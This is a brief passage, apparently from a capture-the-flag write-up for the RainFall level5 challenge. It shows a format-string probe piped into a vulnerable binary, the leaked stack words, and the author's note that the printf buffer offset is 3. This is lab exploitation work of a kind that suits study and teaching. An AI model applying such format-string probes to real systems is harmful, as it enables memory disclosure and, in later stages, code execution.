 
```bash
level5@RainFall:~$ (python -c 'print ("AAAABBBB" + "%x " * 20)';cat) | ./level5
AAAABBBB200 b7fd1ac0 b7ff37d0 41414141 42424242 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520
```

offset of buffer of printf is `3` 
